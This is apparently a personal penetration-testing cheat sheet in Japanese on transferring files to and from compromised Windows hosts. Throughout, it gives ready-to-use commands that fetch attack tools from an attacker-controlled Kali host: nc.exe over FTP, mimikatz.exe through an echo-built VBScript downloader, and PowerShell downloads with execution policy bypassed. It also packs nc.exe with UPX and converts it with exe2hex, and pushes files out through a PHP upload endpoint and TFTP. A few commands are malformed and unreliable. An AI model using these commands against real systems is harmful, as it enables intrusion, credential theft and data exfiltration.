

# FileTransfer

### FTP(powershellが使えなくてftp有効な時)

#### 実行コマンド

```bash
# kali
/ftphome/nc.exe
sudo systemctl restart pure-ftpd
```

```cmd
# windows パスワード部分を変更すること
echo open 192.168.45.241 21 > ftp.txt
echo USER ftpuser >> ftp.txt
echo <パスワードいつもの> >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

```cmd
ftp -v -n -s:ftp.txt
```


#### 設定方法

kaliへのftpインストール

```
sudo apt update && sudo apt install pure-ftpd
```

スクリプトでユーザ登録
※以下ユーザで登録済み

```
ftpuser
いつもの
```

```bash
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd ftpuser -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

```bash
sudo systemctl status pure-ftpd
sudo systemctl start pure-ftpd
```


### VBScriptを利用したファイル転送

以下簡易wgetを作成する

```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

cscriptを実行する

```
cscript wget.vbs http://192.168.119.161/mimikatz.exe mimikatz.exe
```


### powershell

psファイルを作成する

```cmd
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.144/evil.hta" >>wget.ps1
echo $file = "evil.hta" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

実行する

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

* -ExecutionPolicy Bypass：PowerShellスクリプトの実行を許可 (デフォルトでは制限)。
* -NoLogo -NonInteractive：PowerShell のロゴバナーを非表示にし、PowerShell の対話型プロンプトを抑制する
* NoProfileキーワード：PowerShellがデフォルトのプロファイルをロードしないようにし（これは必要ない）


ワンライナーバージョン

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/index.html', 'new-exploit.exe')
```


##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像


### nc.exeの配送

nc.exeをコピー

```
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe
```

パッカーで圧縮

```
upx -9 nc.exe
ls -lh nc.exe
```

exe2hexでWindowsスクリプトに変換

```
exe2hex -x nc.exe -p nc.cmd
```

nc.cmdをcatし全コピーし、攻撃対象ホストに貼り付け（windows)

ncコマンドを確認する

```
nc -h
```




### ファイル出力（php+ps)　

Windows7およびWindows Server 2008 R2以降で動作

* kaliでapache2を起動しupload.phpを作成する

  ```
  <?php
  $uploaddir = '/var/www/uploads/';
  
  $uploadfile = $uploaddir . $_FILES['file']['name'];
  
  move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
  ?>
  ```

  ```
  sudo vi /var/www/html/upload.php   
  ```

* uploadsディレクトリを作成する

  ```
  sudo mkdir /var/www/uploads
  ps -ef | grep apache
  sudo chown www-data: /var/www/uploads
  ls -la /var/www/
  ```

* 攻撃対象ホストでpowershell実行する

  AVに検知されるので画像で

  


### ファイル出力（TFTP)

* kaliでTFTPサーバーを立ち上げる

  ```
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ```

* tftpで出力する

  ```
  tftp -i 10.11.0.4 put important.docx
  ```

  

### ファイル出力（nc)


### ファイル転送（curl)

```
curl -o http://172.31.25.52:8000/nc64.exe
```

```
wget -O http://192.168.119.167/linpeas.sh
```

